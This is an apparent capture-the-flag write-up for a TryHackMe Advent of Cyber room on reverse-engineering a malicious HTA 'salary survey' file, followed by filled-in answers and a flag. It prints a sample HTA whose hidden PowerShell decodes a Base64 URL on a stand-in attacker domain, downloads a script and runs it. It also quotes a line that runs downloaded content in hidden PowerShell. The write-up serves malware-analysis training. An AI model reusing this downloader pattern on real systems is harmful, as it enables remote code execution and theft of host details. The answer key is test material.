



# Malware Analysis - Malhare.exe


Learn about malware analysis and forensics.

```
https://tryhackme.com/room/htapowershell-aoc2025-p2l5k8j1h4
```

## Task 1 Introduction


And in our kingdom of Wareville, just like in others, thousands of files of all kinds pass through the systems every day, from DOCX, PDF resumes received by our elves, to financial spreadsheets, CSVs from the accounting department, and executable files launched by different applications. But have you ever wondered which of these might be malicious? Which ones could actually belong to King Malhare? An interesting question, isn’t it?

### Learning Objectives

In this task, the TBFC SOC team will investigate one specific file type, the HTA format - a type often used for legitimate purposes, yet just as frequently exploited by attackers. Your mission is to reverse-engineer the HTA and uncover how King Malhare tricked Wareville’s elves. To do this, you will have to look for:

- Application metadata
- Script functions
- Any network calls or encoded data
- Clues about exfiltration

---

## Task 2 Malware Analysis

### HTA Overview

Not long ago - in the summer of 2025 - researchers discovered that ransomware groups were using HTA files disguised as fake verification pages to spread the Epsilon Red ransomware. During that campaign, many organisations were affected, and security teams were reminded how important it is to understand what HTA files are, and why they appear so often in corporate environments.

So, what exactly are HTA files, and why do they exist? In Wareville's digital kingdom, not every strange-looking file is a threat. Some were originally created to make the daily work of developers and administrators easier. One such helpful invention is the HTA file, short for HTML Application. An HTA file is like a small desktop app built using familiar web technologies such as HTML, CSS, and JavaScript. Unlike regular web pages that open inside a browser, HTA files run directly on Windows through a built-in component called Microsoft HTML Application Host - `mshta.exe` process. This allows them to look and behave like lightweight programs with their own interfaces and actions. In legitimate use cases, HTA files serve several practical purposes in Wareville and beyond:

- Automating administrative or setup tasks.
- Providing quick interfaces for internal scripts.
- Testing small prototypes without building full software.
- Offering lightweight IT support utilities for daily use.

In short, HTA files were designed as a convenient way to blend the simplicity of the web with the power of desktop applications, a tool that many TBFC’s engineers and elves still use to keep SOC-mas operations running smoothly.

### HTA File Structure

Before the defenders of TBFC can recognise suspicious HTA files, it's important to understand how a normal HTA file is built. Luckily, their structure is quite simple, in fact, it's very similar to a regular HTML page. An HTA file usually contains three main parts:

1. **The HTA declaration:** This defines the file as an HTML Application and can include basic properties like title, window size, and behaviour.
2. **The interface (HTML and CSS):** This section creates the layout and visuals, such as buttons, forms, or text.
3. **The script (VBScript or JavaScript):** Here is where the logic lives; it defines what actions the HTA will perform when opened or when a user interacts with it.

Here's a simple example of what a legitimate HTA file might look like:

```
<html>
<head>
    <title>TBFC Utility Tool</title>
    <HTA:APPLICATION 
        ID="TBFCApp"
        APPLICATIONNAME="Utility Tool"
        BORDER="thin"
        CAPTION="yes"
        SHOWINTASKBAR="yes"
    />
</head>

<body>
    <h3>Welcome to the TBFC Utility Tool</h3>
    <input type="button" value="Say Hello" onclick="MsgBox('Hello from Wareville!')">
</body>
</html>
```

This small example creates a simple desktop window with a button that shows a message when clicked. In real cases, HTA scripts can be much longer and perform important tasks. It's easy to see why developers liked HTA; you could build a quick, functional tool using nothing more than web code. However, as TBFC's defenders will soon learn, the same flexibility that makes HTA convenient also makes it powerful enough to require careful attention.

### How King Malhare Turns HTAs Into Weapons

HTA files are attractive because they combine familiar web markup with script execution on Windows. In the hands of a defender, they’re a handy automation tool; in the hands of someone wanting to bypass controls, they can be used as a delivery mechanism or launcher.

**Common purposes of malicious HTA use:**

- **Initial access/delivery:** HTA files are often delivered by phishing (email attachments, fake web pages, or downloads) and run via `mshta.exe`.
- **Downloaders/droppers:** An HTA can execute a script that fetches additional binaries or scripts from the attacker's C2.
- **Obfuscation/evasion:** HTAs can hide intent by embedding encoded data(Base64), by using short VBScript/JScript fragments, or by launching processes with hidden windows.
- **Living-off-the-land:** HTA commonly calls built-in Windows tools (`mshta.exe`, `powershell.exe`, `wscript.exe`, `rundll32.exe`) to avoid adding new binaries to disk.

Inside an HTA, you'll often find a small script that may be obfuscated or encoded. In practice, this tiny script usually does one of two things: downloads and runs a second-stage payload, or opens a remote control channel to let something else talk back to the attacker's server. These lightweight scripts are the reason HTAs are effective launchers, a single small file can pull in the rest of the malware.

Here is a sample that King Malhare might try to use:

```
<html>
  <head>
    <title>Angry King Malhare</title>
    <HTA:APPLICATION ID="Malhare" APPLICATIONNAME="B" BORDER="none" 
     SHOWINTASKBAR="no" SINGLEINSTANCE="yes" WINDOWSTATE="minimize">
    </HTA:APPLICATION>
    <script language="VBScript">
      Option Explicit:Dim a:Set a=CreateObject("WScript.Shell"):Dim 
      b:b="powershell -NoProfile -ExecutionPolicy Bypass -Command "" 
      {$U=
      [System.Text.Encoding]::UTF8.GetString([System.Convert]::
      FromBase64String('aHR0cHM6Ly9yYXcua2luZy1tYWxoYXJlWy5dY29tL2MyL3NpbHZlci9yZWZzL2hlYWRzL21haW4vUkVEQUNURUQudHh0')) 
      $C=(Invoke-WebRequest -Uri 
      $U -UseBasicParsing).Content 
      $B=[scriptblock]::Create($C) $B}""":a.Run 
      b,0,True:self.close
    </script>
  </head>
  <body>
  </body>
</html>
```

As you can see, this HTA is very different from the simple example that we provided earlier; it contains a number of obscure elements that deserve a closer look. Let's walk through it.

When analysing HTAs, the ``<title>`` and `HTA:APPLICATION` tags often reveal how attackers disguise malicious apps. They might use a convincing name like ‘Salary Survey’ or ‘Internal Tool’ to appear safe, always check these first

Secondly, there’s a VBScript block marked by ``</script language="VBScript">`` that’s the active part of the file where attackers often embed encoded commands or call external resources. Inside this block we find a PowerShell command `b:b="powershell -NoProfile -ExecutionPolicy Bypass -Command`, a pattern commonly seen in malicious HTAs used for delivery or launching. The PowerShell invocation contains a Base64-encoded blob - `FromBase64String`. This is likely a pointer to further instructions or a downloaded payload. If you see an encoded string, assume it hides a URL. Decoding it reveals the attacker’s command-and-control (C2) address or a resource used in the attack. Always decode before assuming what it does.

Malware authors often use multiple layers of encoding and encryption such as Base64 for obfuscation as some form of encryption or cipher to conceal the true payload. When you decode the Base64, check whether the output still looks like gibberish; if so, a second decryption step is needed.

For analysis, we'll extract that Base64 code: `aHR0cHM6Ly9yYXcua2luZy1tYWxoYXJlWy5dY29tL2MyL3NpbHZlci9yZWZzL2hlYWRzL21haW4vUkVEQUNURUQudHh0` and inspect it with a tool like CyberChef to reveal what it hides.



**Note:** In the example, we've redacted the remote resource and replaced the real link with the REDACTED.txt file for safety. In a real incident, that string would usually point directly to a file hosted on the attacker's C2 domain (for example, a URL under king-malhare[.]com in our SOC-mas story).

After the encoded PowerShell command, we can see three key variables: ``$U``, ``$C``, and ``$B``. Let’s quickly break down what each does:

- ``$U:`` Holds the decoded URL, the location from which the next script or payload will be fetched.
- ``$C:`` Stores the content downloaded from that URL, usually a PowerShell script or text instructions.
- ``$B:`` Converts that content into an executable scriptblock and runs it directly in memory.

Whenever you see a chain of variables like this, try to trace where each one is created, used, and passed. If a variable ends up inside a function like Run, Execute, or Eval, that’s a sign that downloaded data is being executed, a key indicator of malicious activity.

As a summary, the process for reviewing a suspicious HTA can be broken down into three main steps:

1. Identify the scripts section (VBScript)
2. Look for encoded data or external connections (e.g. Base64, HTTP requests)
3. Follow the logic to see what's execute or being sent out.

We reviewed how attackers might use an HTA file for malicious purposes. Now that you’ve seen how HTAs can combine HTML, VBScript, and PowerShell, you’ll apply the same process to analyse a suspicious one. Start by locating script sections (``<script language="VBScript">``), then identify functions, encoded strings, and any references to URLs or system calls. Decode anything that looks like it is hiding information, then trace how the script uses the results. Now it's your turn to work out what the evil king's minions did.
    
### From Surveys to Security Failings

Our team figured out that some of the elves' laptops were compromised. Working through the incident, it seems that the one common denominator between them all is a survey that they completed regarding their salaries. The investigation found that an email was sent to these elves with an HTA attachment. The team is asking you to review the HTA file and provide feedback on what it is actually doing. You can choose to either use the AttackBox and find the file here ``/root/Rooms/AoC2025/Day21/survey.hta`` or download the attached task file and perform your analysis!

Use a text editor to view the HTA to ensure that it doesn't execute, you can use pluma on the AttackBox by running the following command:

`pluma /root/Rooms/AoC2025/Day21/survey.hta`

You will see the HTA as follows:



We will start our analysis by searching for the metadata of the HTA, which will tell us what purpose it is telling users it has. This section is denoted by the ``<head>`` as shown below:



Next we want to understand what the HTA actually does. This means we need to search for the VBScript section (``<script type="text/vbscript">``) for function definitions, meaning to look for any lines that start with `Function` or `Sub`. In our HTA, we can see 5 functions namely:

- **window_onLoad:** This function will autmatically execute when the HTA loads and executes the ``getQuestions()`` function.
- **getQuestions():** This function makes some external requests and then ultimately runs the `decodeBase64` function and calls the `provideFeedback` function with the data.
- **provideFeedback(feedbackString):** This function gathers some data about the computer, makes some external requests, and then ultimately executes something we still need to analyse.
- **decodeBase64(base64):** This function takes in a base64 string and converts it into binary.
- **RSBinaryToString(xBinary):** This function takes binary input and converts it back into a string.

Within these functions, we want to understand any real actions being performed. These are usually denoted by ``CreateObject()`` with our application containing a couple, such as:

- **InternetExplorer.Application:** Allows the application to make an external connection
- **WScript.Network:** Connects to the computer's WScript Networking elements to uncover information
- **WScript.Shell:** Creates a WScript shell that can be used to execute commands on the computer

Lastly, we want to understand what the HTA actually looks like to the user. Here it is very similar to HTML files. To do this, we need to take a look at the ``<body>`` part of the HTA starting at line 169. This is the part that will actually be shown to the user.

Using the information and steps given above, it is time to perform an analysis of this HTA and figure out what King Malhare is up to!


---

## 🔑 Solution


What is the title of the HTA application?

```
✅ Best Festival Company Developer Survey
```

What VBScript function is acting as if it is downloading the survey questions?

```
✅ getQuestions
```

What URL domain (including sub-domain) is the "questions" being downloaded from?

```
✅ survey.bestfestiivalcompany.com
```

Malhare seems to be using typosquatting, domains that look the same as the real one, in an attempt to hide the fact that the domain is not the inteded one, what character in the domain gives this away?

```
✅ i
```

Malicious HTAs often include real-looking data, like survey questions, to make the file seem authentic. How many questions does the survey have?

```
✅ 4
```

Notice how even in code, social engineering persists, fake incentives like contests or trips hide in plain sight to build trust. The survey entices participation by promising a chance to win a trip to where?

```
✅ South Pole
```

The HTA is enumerating information from the local host executing the application. What two pieces of information about the computer it is running on are being exfiltrated? You should provide the two object names separated by commas.

```
✅ ComputerName,UserName
```

What endpoint is the enumerated data being exfiltrated to?

```
✅ /details
```

What HTTP method is being used to exfiltrate the data?

```
✅ GET
```

After reviewing the function intended to get the survey questions, it seems that the data from the download of the questions is actually being executed. What is the line of code that executes the contents of the download?

```
✅ runObject.Run "powershell.exe -nop -w hidden -c " & feedbackString, 0, False
```

It seems as if the malware site has been taken down, so we cannot download the contents that the malware was executing. Fortunately, one of the elves created a copy when the site was still active. Download the contents from here. What popular encoding scheme was used in an attempt to obfuscate the download?

```
✅ base64
```

Decode the payload. It seems as if additional steps where taken to hide the malware! What common encryption scheme was used in the script?

```
✅ rot13
```

Either run the script or decrypt the flag value using online tools such as CyberChef. What is the flag value?

```
✅ THM{Malware.Analysed}
```

---

### Side Quest 4 Key

For those who want another challenge, download the HTA file from here to get the key for Side Quest 4, accessible through our Side Quest Hub. The password for the file is ``CanYouREM3?``.

```
https://assets.tryhackme.com/additional/aoc2025/SQ4/NorthPole.zip
## side quest hub
https://tryhackme.com/adventofcyber25/sidequest
```


